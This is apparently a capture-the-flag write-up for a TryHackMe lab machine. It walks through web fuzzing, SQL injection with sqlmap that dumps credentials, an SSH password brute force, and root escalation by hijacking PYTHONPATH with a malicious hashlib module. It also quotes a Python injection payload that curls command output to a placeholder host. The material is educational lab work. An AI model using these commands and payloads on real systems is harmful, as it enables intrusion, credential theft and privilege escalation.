 ```yaml
---
sticker: emoji//1f4d8
---
```


# BIBLIOTECA

## ENUMERATION

***

### OPEN PORTS

***

| PORT | SERVICE |
| ---- | ------- |
| 22   | ssh     |
| 8000 | http    |

## RECONNAISSANCE

***

![](gitbook/cybersecurity/images/Pasted%20image%2020250515122728.png)

As we can see, we got a login page, let's try to fuzz before trying any vuln such as sqli or xss:

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://10.10.160.42:8000/FUZZ" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.160.42:8000/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

login                   [Status: 200, Size: 856, Words: 43, Lines: 26, Duration: 338ms]
register                [Status: 200, Size: 964, Words: 51, Lines: 27, Duration: 886ms]
logout                  [Status: 302, Size: 218, Words: 21, Lines: 4, Duration: 190ms]
```

Seems like nothing important can be found, let's proceed to the login page then.

![](gitbook/cybersecurity/images/Pasted%20image%2020250515123053.png)

A good approach is to understand the register process, as we can see, we got to enter the email `id`, this seems weird, let's submit the request to our proxy:

![](gitbook/cybersecurity/images/Pasted%20image%2020250515123302.png)

I noticed that at the login page, if we use:

```
_
```

We get status code `500`, from a previous machine, I exploited this using a python server to perform:

```python
__import__('os').system('curl http://IP:8000?pwned=$(id|base64)')
```

This time I had no luck, let's proceed to testing `SQLI` and `XSS` then:

![](gitbook/cybersecurity/images/Pasted%20image%2020250515124333.png)

If we use that, we get:

![](gitbook/cybersecurity/images/Pasted%20image%2020250515124345.png)

Surprisingly, `SQLI` works, let's proceed to exploitation then.

## EXPLOITATION

***

Knowing that the `username` parameter is vulnerable, let's save the request to a file and use `sqlmap` to check if we can get anything valuable:

```
sqlmap -r "$(pwd)/req.req" --dbs --dump

Database: website
Table: users
[2 entries]
+----+----------------------+----------------+----------+
| id | email                | password       | username |
+----+----------------------+----------------+----------+
| 1  | smokey@email.boop    | My_P@ssW0rd123 | smokey   |
| 2  | test@test.com;whoami | test           | test     |
+----+----------------------+----------------+----------+
```

There we go, we got credentials, let's go into ssh

![](gitbook/cybersecurity/images/Pasted%20image%2020250515125529.png)

We can begin privilege escalation.

## PRIVILEGE ESCALATION

***

To begin with, let's use `linpeas` so we can check any PE vector:

![](gitbook/cybersecurity/images/Pasted%20image%2020250515133638.png)

As seen, we got another user named `hazel`, we can also find this:

![](gitbook/cybersecurity/images/Pasted%20image%2020250515133711.png)

This task runs as `smokey` so we cannot get a root shell with that, if we check inside of `hazel` home, we can find this:

```
smokey@ip-10-10-160-42:~$ ls -la /home/hazel/
total 32
drwxr-xr-x 3 root  root  4096 Mar  2  2022 .
drwxr-xr-x 5 root  root  4096 May 15 17:18 ..
lrwxrwxrwx 1 root  root     9 Dec  7  2021 .bash_history -> /dev/null
-rw-r--r-- 1 hazel hazel  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 hazel hazel 3771 Feb 25  2020 .bashrc
drwx------ 2 hazel hazel 4096 Dec  7  2021 .cache
-rw-r----- 1 root  hazel  497 Dec  7  2021 hasher.py
-rw-r--r-- 1 hazel hazel  807 Feb 25  2020 .profile
-rw-r----- 1 root  hazel   45 Mar  2  2022 user.txt
-rw------- 1 hazel hazel    0 Dec  7  2021 .viminfo
```

There's a file named `hasher.py`, seems like that could be our way into root, since we need `hazel` credentials and there seems to be no backup or anything that reveals us this user's password, let's try brute force:

```
hydra -l hazel -P /usr/share/wordlists/rockyou.txt IP ssh -t 4
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250515135342.png)

After a while we get:

```
hazel:hazel
```

Seems like the user was the password, let's go into ssh with those credentials then:

![](gitbook/cybersecurity/images/Pasted%20image%2020250515134533.png)

We can now read the user flag:

```
hazel@ip-10-10-160-42:~$ cat user.txt
THM{G0Od_OLd_SQL_1nj3ct10n_&_w3@k_p@sSw0rd$}
```

If we check our sudo privileges, we can notice this:

```bash
hazel@ip-10-10-160-42:~$ sudo -l
Matching Defaults entries for hazel on ip-10-10-160-42:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User hazel may run the following commands on ip-10-10-160-42:
    (root) SETENV: NOPASSWD: /usr/bin/python3 /home/hazel/hasher.py


hazel@ip-10-10-160-42:~$ ls -l hasher.py
-rw-r----- 1 root hazel 497 Dec  7  2021 hasher.py
```

Let's check the code for the script:

```python
import hashlib

def hashing(passw):

    md5 = hashlib.md5(passw.encode())

    print("Your MD5 hash is: ", end ="")
    print(md5.hexdigest())

    sha256 = hashlib.sha256(passw.encode())

    print("Your SHA256 hash is: ", end ="")
    print(sha256.hexdigest())

    sha1 = hashlib.sha1(passw.encode())

    print("Your SHA1 hash is: ", end ="")
    print(sha1.hexdigest())


def main():
    passw = input("Enter a password to hash: ")
    hashing(passw)

if __name__ == "__main__":
    main()
```

We cannot write on the file so we need to exploit it using the `SETENV` tag, this tag allows us to set environment variables on the sudo command line, if we are able to hijack the `PYTHONPATH` we will get a shell as root, The `PYTHONPATH`environment variable controls where Python looks for modules. When Python imports a module like `hashlib`, it searches for the module in the following order:

* Current directory
* Directories in the `PYTHONPATH` environment variable
* Standard library directories
* Site-packages directories

Understanding the flow, we can follow these steps to get a root as shell:

1. **Create a malicious `hashlib.py` module** that spawns a shell when imported:

```bash
echo 'import os; os.system("/bin/bash")' > /tmp/hashlib.py
```

2. **Execute the `hasher.py` script with sudo**, hijacking the `PYTHONPATH` environment variable to include `/tmp`.

```python
sudo PYTHONPATH=/tmp /usr/bin/python3 /home/hazel/hasher.py
```

If we do this, we can see:

![](gitbook/cybersecurity/images/Pasted%20image%2020250515135207.png)

As seen, we get a root as shell and can now read `root.txt`:

```
root@ip-10-10-160-42:/home/hazel# cat /root/root.txt
THM{PytH0n_LiBr@RY_H1j@acKIn6}
```

![](gitbook/cybersecurity/images/Pasted%20image%2020250515135418.png)
